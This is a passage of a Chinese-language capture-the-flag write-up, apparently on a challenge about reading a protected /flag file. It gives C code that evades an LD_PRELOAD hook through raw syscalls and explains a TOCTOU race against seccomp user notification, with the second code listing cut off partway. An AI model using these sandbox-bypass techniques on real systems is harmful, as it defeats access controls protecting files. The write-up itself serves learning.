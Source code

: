 ## 为什么要打开 /flag 😡

你们 MyGo 比真的是……

### LD_PRELOAD, love!

（话说这个题目名称是不是抄的“原神，启动！”？）

`LD_PRELOAD` 劫持 libc 函数，这还不简单，直接 syscall 就完了。

```c
#include <stdio.h>

#include <fcntl.h>
#include <sys/stat.h>
#include <unistd.h>

static long system_call(long number, long _1, long _2, long _3) {
    long value;

    __asm__ volatile ( "syscall"
                     : "=a" (value)
                     : "a" (number), "D" (_1), "S" (_2), "d" (_3)
                     : "rcx", "r11", "cc", "memory");

    return value;
}

char buf[0x80];
int main() {
  int fd = system_call(2, (long)"/home/mivik/ctf/flag", O_RDONLY, 0);
  int rd = system_call(0, fd, (long)buf, 0x80);
  puts(buf);
}
```

### 都是 seccomp 的错

`seccomp_unotify` 大概是把 syscall 的拦截交给了 user space 去做，但不难搜索到会有一个 `TOCTOU` 的攻击：检查参数时参数的值和直接运行时的值不一样。我们可以弄一个字符串让他在 `/flag` 和 `/flah` 里不断切换，这样只要通过检查并且在实际执行时是 `/flag` 就可以了。

比较坑的是没有允许 `clone3` 调用，所以不能直接用 `pthread`，所以还得手动用 `clone` 调用。

```c
#include <stdio.h>
#include <string.h>

#include <fcntl.h>
#include <linux/sched.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>

static long system_call(long number, long _1, long _2, long _3) {
  long value;

  __asm__ volatile("syscall"
                   : "=a"(value)
                   : "a"(number), "D"(_1), "S"(_2), "d"(_3)
                   : "rcx", "r11", "cc", "memory");

  return value;
}

const int STACK = 8192;

```